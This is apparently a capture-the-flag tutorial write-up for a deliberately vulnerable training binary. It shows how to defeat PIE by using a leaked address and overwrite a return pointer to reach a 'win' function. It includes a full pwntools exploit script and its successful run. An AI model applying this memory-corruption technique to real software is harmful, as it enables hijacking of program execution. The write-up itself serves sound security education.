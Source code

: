 # 06_ret_overwrite_pie_noCanary Writeup

## Steps:
1. Run chall. Notice in this one PIE is enabled. This means that the memory locations are not fixed.
```
$ ./chall 

Your goal is to modify the return pointer @ 0x7ffd89d06a78, to a function called 'win' in the binary.

The next protection you will learn, is position-independent code (PIC) or more often position-independent executable (PIE)
Previoiously the base address of the binaries was 0x40000. This time this address will look something like '0x558b5e6ff000'.
This is bypassed by leaking an address, determining the base address from the leak, and then determining any addresses to code
from their offsets. If you are confused by any of this, do some research to better understand it!

Like last time, we will start with a hint @ 0x563032966010

0x7ffd89d06a50: 0x0000000000000000 0x0000000000000000 
0x7ffd89d06a60: 0xffffffffffffffff 0xffffffffffffffff 
0x7ffd89d06a70: 0x0000000000000001 0x00007f558da5fca8 

Enter input: AAAA

0x7ffd89d06a50: 0x0000000a41414141 0x0000000000000000 
0x7ffd89d06a60: 0xffffffffffffffff 0xffffffffffffffff 
0x7ffd89d06a70: 0x0000000000000001 0x00007f558da5fca8 

You failed to overwrite the return pointer.
```
2. Using gdb gef, notice that every time we run it the hint is at the same location. This means we can use gdb to get the relative distance between the `hint` and `win`
- `info function win` gives us `0x00005555555555d9  win`
- `hint` is at `0x555555558010`

    So `0x8010 - 0x55d9 = 0x2a37`

3. Recieve the `hint` and subtract `0x2a37` to calculate the address of `win`
4. Create the payload, similar to previous problems
- 40 bytes of garbage to reach return pointer
- address of `win`
```
from pwn import *

target = process("./chall")

target.recvuntil("hint @ 0x")
hint = target.recvuntil("\n")
print(hint)

win = int(hint, 16) - 0x2A37


payload = b"A" * 8 * 5
payload += p64(win)

target.sendline(payload)

s = target.recvall().decode()
print(s)
```

## Solution:
```
$ python3 exploit.py 
[+] Starting local process './chall': pid 73075
/home/kali/Binex-Writeups/binex_tuts/06_ret_overwrite_pie_noCanary/exploit.py:5: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  target.recvuntil("hint @ 0x")
/home/kali/Binex-Writeups/binex_tuts/06_ret_overwrite_pie_noCanary/exploit.py:6: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  hint = target.recvuntil("\n")
b'5582bf85b010\n'
[+] Receiving all data: Done (524B)
[*] Process './chall' stopped with exit code 0 (pid 73075)

0x7ffd8bc108a0: 0x0000000000000000 0x0000000000000000 
0x7ffd8bc108b0: 0xffffffffffffffff 0xffffffffffffffff 
0x7ffd8bc108c0: 0x0000000000000001 0x00007f1ddbe01ca8 

Enter input: 
0x7ffd8bc108a0: 0x4141414141414141 0x4141414141414141 
0x7ffd8bc108b0: 0x4141414141414141 0x4141414141414141 
0x7ffd8bc108c0: 0x4141414141414141 0x00005582bf8585d9 

Congrats, you successuly changed execution flow!
```

